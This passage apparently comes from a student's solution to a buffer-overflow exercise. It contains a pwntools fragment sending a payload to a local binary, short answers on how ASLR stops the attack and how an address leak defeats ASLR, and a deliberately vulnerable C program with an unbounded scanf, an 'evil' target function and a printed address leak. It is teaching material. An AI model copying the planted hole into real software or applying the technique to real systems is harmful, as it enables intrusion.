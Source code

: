 ```python
io = process(['./a.out'])
io.sendline(payload)
io.wait()
print(io.recvline())
print(io.recvline())
# uid=1000(user) gid=1000(user) groups=1000(user)


```

### c.

#### i.

The attack does not work any longer since we do not know the virtual address of the target function since it gets randomized epheremaly.

#### ii.

The attacker needs a leak of the current address randomization, which he can then use to calculate the position of the target executable. Since the offsets inside the .text section are constant even with ASLR enabled, the leak can be any address (variable, function ...) with a constant offset to the target function.

#### overflow_c.c

```c
#include <stdio.h>
#include <string.h>



void can_you_do_it()
{
	puts("Please input your message");
	char buf[128];
	scanf("%s", buf);
}

void evil() {
    puts("This should have had never happened");
}

int main()
{
	int dummy=-1;
	puts("I trust that you did not enter more than 127 chars ...");
	printf("Address of dummy: %p\n", &can_you_do_it);

	can_you_do_it();

	puts("Just stop it already!");

	return 0;
}
```
